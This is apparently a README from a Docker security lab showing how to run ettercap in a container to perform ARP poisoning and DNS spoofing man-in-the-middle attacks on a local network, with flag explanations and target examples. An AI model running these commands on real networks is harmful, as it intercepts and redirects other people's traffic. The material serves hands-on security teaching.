 git clone https://github.com/liranmatcu/Docker_Security_Labs.git
cd  Docker_Security_Labs/mimt/

# Start ettercap docker instances
docker-compose build
docker-compose up ettercap

## Or start one with doccker command directly
docker run --rm -it           \
      --cap-add SYS_ADMIN     \
      --cap-add NET_ADMIN     \
      eureka-ettercap         \
      -TbqM arp               \
      -oi eth0


docker run --rm -it           \
      --cap-add SYS_ADMIN     \
      --cap-add NET_ADMIN     \
      eureka-ettercap         \
      -T -Q -P dns_spoof -M arp  \
      -oi eth0 // //

ettercap -T -Q -i eth0 -P dns_spoof -M arp // //
-T: Specifies the use of the text-based interface
-q: Runs commands in quiet mode
-P dns_spoof: Specifies the use of the dns_spoof plug-in
-M arp: Initiates a MITM ARP poisoning attack to intercept packets between hosts
// //: Specifies the entire network as the targets

ettercap -T -j /tmp/victims -M arp /10.0.0.1-7/ /10.0.0.10-20/
Will load the hosts list from /tmp/victims and perform an ARP poisoning attack against the two target. The list will be joined with the target and the resulting list is used for ARP poisoning.

ettercap -T -M arp // //
Perform the ARP poisoning attack against all the hosts in the LAN. BE CAREFUL !!

Reference:
https://hub.docker.com/r/mrecco/ettercap
https://github.com/MrEcco/docker-ettercap